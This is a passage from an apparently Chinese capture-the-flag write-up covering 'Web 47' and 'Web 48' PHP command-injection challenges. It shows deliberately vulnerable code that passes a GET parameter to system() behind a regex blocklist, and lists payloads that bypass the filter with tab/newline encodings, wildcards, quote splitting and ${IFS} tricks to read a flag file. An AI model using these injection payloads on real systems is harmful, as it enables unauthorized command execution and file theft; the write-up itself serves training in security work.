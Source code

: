 官方：`?c=nl<fla''g.php||`

或者：`?c=tac%09fla?.php||`

或者：`?c=ca\t<fl\ag.php||`

或者：`?c=tac<fla%27%27g.php||`



几种绕过空格的方式 `{cat,flag.txt}`、`cat${IFS}flag.txt`、`cat$IFS$9flag.txt`、`cat<flag.txt`//这俩<>貌似没啥用 `cat<>flag.txt`

最后是`cat%0afla?.php`、`cat%09fla?.php`，这俩的区别是前者（%0a经过URL解码是换行的意思）可以用来做末尾的截断，后者（%09是tab的意思）用于语句中间。





## Web 47

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)) {
        system($c . " >/dev/null 2>&1");
    }
} else {
    highlight_file(__FILE__);
}
?>
```

官方：`?c=nl<fla''g.php||`

或者：`?c=tac%09fla?.php||`

或者：`?c=tac<f''lag.php||`





## Web 48

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)) {
        system($c . " >/dev/null 2>&1");
    }
} else {
    highlight_file(__FILE__);
}
?>
```
